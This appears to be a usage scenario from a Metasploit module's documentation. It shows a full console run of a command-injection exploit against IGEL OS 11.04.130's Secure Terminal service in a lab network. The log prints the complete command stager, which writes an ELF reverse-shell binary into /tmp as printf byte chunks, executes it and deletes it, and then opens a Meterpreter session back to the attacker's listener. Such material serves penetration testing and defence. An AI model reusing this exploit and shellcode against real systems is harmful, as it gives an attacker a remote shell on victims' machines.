 ## Scenarios

### IGEL OS 11.04.130

Targeting the Secure Terminal service (30022/tcp):

```
msf > use exploit/linux/misc/igel_command_injection
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/misc/igel_command_injection) > set rhost 192.168.37.133
rhost => 192.168.37.133
msf exploit(linux/misc/igel_command_injection) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(linux/misc/igel_command_injection) > set verbose true
verbose => true
msf exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] 192.168.37.133:30022 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.37.133:30022 - IGEL OS Version: 11.04.130.01
[+] 192.168.37.133:30022 - The target appears to be vulnerable.
[*] 192.168.37.133:30022 - Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0'>>/tmp/oNwdw", "printf '\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\355\\0\\0\\0\\206\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\2\\130\\315\\200\\205\\300\\164\\6\\61\\300\\260\\1\\315\\200\\152\\2'>>/tmp/oNwdw", "printf '\\130\\315\\200\\205\\300\\164\\6\\61\\300\\260\\1\\315\\200\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150'>>/tmp/oNwdw", "printf '\\300\\250\\45\\1\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152'>>/tmp/oNwdw", "printf '\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300'>>/tmp/oNwdw", "printf '\\170\\20\\133\\211\\341\\231\\262\\152\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/oNwdw", "chmod +x /tmp/oNwdw", "/tmp/oNwdw", "rm -f /tmp/oNwdw"]
[*] 192.168.37.133:30022 - executing: printf '\177\105\114\106\1\1\1\0\0\0\0\0\0\0\0\0\2\0\3\0\1\0\0\0\124\200\4\10\64\0\0\0\0\0\0\0\0\0\0\0\64\0\40\0\1\0\0\0\0\0\0\0\1\0\0\0'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  16.45% done (149/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\0\0\0\0\0\200\4\10\0\200\4\10\355\0\0\0\206\1\0\0\7\0\0\0\0\20\0\0\152\2\130\315\200\205\300\164\6\61\300\260\1\315\200\152\2'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  32.67% done (296/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\130\315\200\205\300\164\6\61\300\260\1\315\200\152\12\136\61\333\367\343\123\103\123\152\2\260\146\211\341\315\200\227\133\150'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  49.01% done (444/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\300\250\45\1\150\2\0\21\134\211\341\152\146\130\120\121\127\211\341\103\315\200\205\300\171\31\116\164\75\150\242\0\0\0\130\152'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  65.45% done (593/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\0\152\5\211\343\61\311\315\200\205\300\171\275\353\47\262\7\271\0\20\0\0\211\343\301\353\14\301\343\14\260\175\315\200\205\300'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  81.79% done (741/906 bytes)
[*] 192.168.37.133:30022 - executing: printf '\170\20\133\211\341\231\262\152\260\3\315\200\205\300\170\2\377\341\270\1\0\0\0\273\1\0\0\0\315\200'>>/tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  95.03% done (861/906 bytes)
[*] 192.168.37.133:30022 - executing: chmod +x /tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress -  97.13% done (880/906 bytes)
[*] 192.168.37.133:30022 - executing: /tmp/oNwdw
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (980808 bytes) to 192.168.37.133
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.133:50500) at 2021-04-30 15:33:12 -0500
[*] 192.168.37.133:30022 - Command Stager progress -  98.23% done (890/906 bytes)
[*] 192.168.37.133:30022 - executing: rm -f /tmp/oNwdw
[*] 192.168.37.133:30022 - Command Stager progress - 100.00% done (906/906 bytes)

```